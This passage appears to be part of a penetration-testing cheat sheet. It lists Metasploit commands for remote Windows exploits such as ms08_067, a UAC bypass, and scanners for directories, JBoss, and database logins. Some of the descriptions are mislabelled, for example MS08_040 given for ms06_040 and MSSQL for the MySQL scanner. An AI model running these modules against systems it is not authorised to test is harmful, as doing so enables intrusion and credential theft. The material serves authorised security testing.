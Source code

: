<thead>
<tr>
<th>Command</th>
<th>Description</th>
</tr>
</thead>
<tbody>
<tr>
<td>use exploit/windows/smb/ms08_067_netapi</td>
<td>MS08_067 Windows 2k, XP, 2003 Remote Exploit</td>
</tr>
<tr>
<td>use exploit/windows/dcerpc/ms06_040_netapi</td>
<td>MS08_040 Windows NT, 2k, XP, 2003 Remote Exploit</td>
</tr>
<tr>
<td>use exploit/windows/smb/<br>
ms09_050_smb2_negotiate_func_index</td>
<td>MS09_050 Windows Vista SP1/SP2 and Server 2008 (x86) Remote Exploit</td>
</tr>
</tbody>
</table>
<h3>Local Windows Metasploit Modules (exploits)</h3>
<table>
<thead>
<tr>
<th>Command</th>
<th>Description</th>
</tr>
</thead>
<tbody>
<tr>
<td>use exploit/windows/local/bypassuac</td>
<td>Bypass UAC on Windows 7 + Set target + arch, x86/64</td>
</tr>
</tbody>
</table>
<h3>Auxilary Metasploit Modules</h3>
<table>
<thead>
<tr>
<th>Command</th>
<th>Description</th>
</tr>
</thead>
<tbody>
<tr>
<td>use auxiliary/scanner/http/dir_scanner</td>
<td>Metasploit HTTP directory scanner</td>
</tr>
<tr>
<td>use auxiliary/scanner/http/jboss_vulnscan</td>
<td>Metasploit JBOSS vulnerability scanner</td>
</tr>
<tr>
<td>use auxiliary/scanner/mssql/mssql_login</td>
<td>Metasploit MSSQL Credential Scanner</td>
</tr>
<tr>
<td>use auxiliary/scanner/mysql/mysql_version</td>
<td>Metasploit MSSQL Version Scanner</td>
</tr>
<tr>
<td>use auxiliary/scanner/oracle/oracle_login</td>